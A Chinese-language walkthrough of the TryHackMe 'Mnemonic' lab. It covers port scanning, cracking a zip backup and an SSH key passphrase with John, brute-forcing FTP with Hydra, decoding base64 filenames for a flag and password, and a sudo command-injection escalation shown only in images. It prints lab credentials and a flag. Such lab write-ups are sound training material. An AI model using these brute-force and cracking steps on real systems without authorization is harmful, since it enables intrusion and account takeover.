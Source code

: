 ```yaml
---
sidebar_position: 120
tags: [Easy, Linux, 信息泄露, 命令执行, 文件隐写, SUDO]
title: "Mnemonic"
description: "Mnemonic"
sidebar_label: "Mnemonic"
slug: /tryhackme/120
---
```


# Mnemonic

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141016-2.png)

## 端口扫描

```bash
root@ip-10-10-159-137:~/mnemonic# nmap -sTCV -p 21,80,1337 --min-rate 1000 10.10.117.238

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-26 10:14 BST
Nmap scan report for ip-10-10-117-238.eu-west-1.compute.internal (10.10.117.238)
Host is up (0.00022s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/webmasters/*
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1337/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e0:42:c0:a5:7d:42:6f:00:22:f8:c7:54:aa:35:b9:dc (RSA)
|   256 23:eb:a9:9b:45:26:9c:a2:13:ab:c1:ce:07:2b:98:e0 (ECDSA)
|_  256 35:8f:cb:e2:0d:11:2c:0b:63:f2:bc:a0:34:f3:dc:49 (EdDSA)
MAC Address: 02:BF:7D:34:0A:19 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.39 seconds
```

## 80

进行目录扫描

- 在这里因为 nmap 扫描出来的 robots.txt 也是将我们引导到 /webmasters/ 所以我直接对其进行扫描
- 我在第一次扫描时发现了 backups 目录所以我对备份文件开始了二次扫描

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141016-1.png)

下载我们发现备份文件, 其存在加密, 所以我们需要进行破解

```bash
root@ip-10-10-159-137:~/mnemonic# zip2john backups.zip > hash.txt
ver 1.0 backups.zip/backups/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backups.zip/backups/note.txt PKZIP Encr: 2b chk, TS_chk, cmplen=67, decmplen=60, crc=AEE718A8 type=8
root@ip-10-10-159-137:~/mnemonic# john hash.txt --wordlist=`locate rockyou.txt`
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
00385007         (backups.zip/backups/note.txt)
1g 0:00:00:14 DONE (2023-09-26 11:25) 0.06811g/s 971823p/s 971823c/s 971823C/s 0050bdtn..00257979
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
root@ip-10-10-159-137:~/mnemonic# ls
backups  backups.zip  ferox-http_10_10_117_238_webmasters_-1695720027.state  ferox-http_10_10_117_238_webmasters_-1695723912.state  hash.txt
root@ip-10-10-159-137:~/mnemonic# rm -rf backups
root@ip-10-10-159-137:~/mnemonic# unzip backups.zip 
Archive:  backups.zip
   creating: backups/
[backups.zip] backups/note.txt password: 
  inflating: backups/note.txt        
root@ip-10-10-159-137:~/mnemonic# cat backups/note.txt 
@vill

James new ftp username: ftpuser
we have to work hard
```

从结果中我们知道了一个用户 ftpuser

## FTP

我们进行 ftp 的暴力破解以获取密码

```bash
root@ip-10-10-159-137:~/mnemonic# hydra -l ftpuser -P `locate rockyou.txt` 10.10.117.238 ftp
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-09-26 11:26:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.117.238:21/
[STATUS] 272.00 tries/min, 272 tries in 00:01h, 14344126 to do in 878:56h, 16 active
[STATUS] 283.00 tries/min, 849 tries in 00:03h, 14343549 to do in 844:44h, 16 active
[21][ftp] host: 10.10.117.238   login: ftpuser   password: love4ever
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-09-26 11:29:58
```

在登陆之后其提供了很多的文件内容, 我挨个访问最后在其中一个目录收获到特殊的内容

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141016.png)

将其进行下载并进行了破解

```bash
root@ip-10-10-159-137:~/mnemonic# cat not.txt 
james change ftp user password
root@ip-10-10-159-137:~/mnemonic# john hash.ttx --wordlist=`locate rockyou.txt`
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bluelove         (id_rsa)
1g 0:00:00:12 DONE (2023-09-26 11:30) 0.08298g/s 1190Kp/s 1190Kc/s 1190KC/s *7¡Vamos!
Session completed.
```

从这里我们知道了用户名以及密钥的密码

## 后渗透

### james

使用我们得到的用户名和密码进行登陆, (PS : 其实这里的密钥密码就是用户的密码)

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141016-3.png)

### james —> condor

用户 james 家目录中有几个文件可供我们读取,从这里我知道了使用一种加密技术来完成用户的密码

```bash
james@mnemonic:~$ cat 6450.txt
5140656
354528
842004
1617534
465318
1617534
509634
1152216
753372
265896
265896
15355494
24617538
3567438
15355494
james@mnemonic:~$ ls
6450.txt  noteforjames.txt
james@mnemonic:~$ cat noteforjames.txt
noteforjames.txt

@vill

james i found a new encryption \u0130mage based name is Mnemonic  

I created the condor password. don't forget the beers on saturday
```

我在用户这里进行枚举, 发现没有办法进行 cd 所以只能使用 ls -al 进行一系列操作, 我发现在 home 目录下只有一个用户的家目录可读

```bash
james@mnemonic:~$ ls -al /home
total 40
drwxr-xr-x 10 root    root    4096 Jul 14  2020 .
drwxr-xr-x 24 root    root    4096 Jul 13  2020 ..
drwx------  2 root    root    4096 Jul 14  2020 alex
drwxr--r--  6 condor  condor  4096 Jul 14  2020 condor
drwx------ 12 ftpuser ftpuser 4096 Jul 14  2020 ftpuser
drwx------  6 james   james   4096 Jul 14  2020 james
drwx------  2 root    root    4096 Jul 14  2020 jeff
drwx------  2 root    root    4096 Jul 14  2020 john
drwx------  2 root    root    4096 Jul 14  2020 mike
drwx------  4 vill    vill    4096 Jul 14  2020 vill
james@mnemonic:~$ ls -al /home/condor
ls: cannot access '/home/condor/..': Permission denied
ls: cannot access '/home/condor/'\''VEhNe2E1ZjgyYTAwZTJmZWVlMzQ2NTI0OWI4NTViZTcxYzAxfQ=='\''': Permission denied
ls: cannot access '/home/condor/.gnupg': Permission denied
ls: cannot access '/home/condor/.bash_logout': Permission denied
ls: cannot access '/home/condor/.bashrc': Permission denied
ls: cannot access '/home/condor/.profile': Permission denied
ls: cannot access '/home/condor/.cache': Permission denied
ls: cannot access '/home/condor/.bash_history': Permission denied
ls: cannot access '/home/condor/.': Permission denied
ls: cannot access '/home/condor/aHR0cHM6Ly9pLnl0aW1nLmNvbS92aS9LLTk2Sm1DMkFrRS9tYXhyZXNkZWZhdWx0LmpwZw==': Permission denied
total 0
d????????? ? ? ? ?            ?  .
d????????? ? ? ? ?            ?  ..
d????????? ? ? ? ?            ? 'aHR0cHM6Ly9pLnl0aW1nLmNvbS92aS9LLTk2Sm1DMkFrRS9tYXhyZXNkZWZhdWx0LmpwZw=='
l????????? ? ? ? ?            ?  .bash_history
-????????? ? ? ? ?            ?  .bash_logout
-????????? ? ? ? ?            ?  .bashrc
d????????? ? ? ? ?            ?  .cache
d????????? ? ? ? ?            ?  .gnupg
-????????? ? ? ? ?            ?  .profile
d????????? ? ? ? ?            ? ''\''VEhNe2E1ZjgyYTAwZTJmZWVlMzQ2NTI0OWI4NTViZTcxYzAxfQ=='\'''
```

从上面的输出中我们知道用户 condor 家目录出现一些 base64 加密的内容, [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9+/=',true,false)&input=YUhSMGNITTZMeTlwTG5sMGFXMW5MbU52YlM5MmFTOUxMVGsyU20xRE1rRnJSUzl0WVhoeVpYTmtaV1poZFd4MExtcHdadz09ClZFaE5lMkUxWmpneVlUQXdaVEptWldWbE16UTJOVEkwT1dJNE5UVmlaVGN4WXpBeGZRPT0g) 从这里的输出中我们知道一个图片以及一个用户的 flag, 我查看图片其指向一个密码加密技术, 同时切合 james 用户家目录内容然后我就懵逼了, 看了 WP 后意识到是一种新的加密手段, 这里我就不复习解密了,直接看结果 [Mnemonic](https://github.com/MustafaTanguner/Mnemonic)

```bash
pasificbell1981
```

使用其进行登录

### condor —> root

我发现用户 condor 存在一个 SUDO 特权所以我继续进行了利用

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141016-4.png)

然后我查看了其源代码, 发现其中存在命令执行漏洞

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141016-5.png)

进行利用

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141016-6.png)
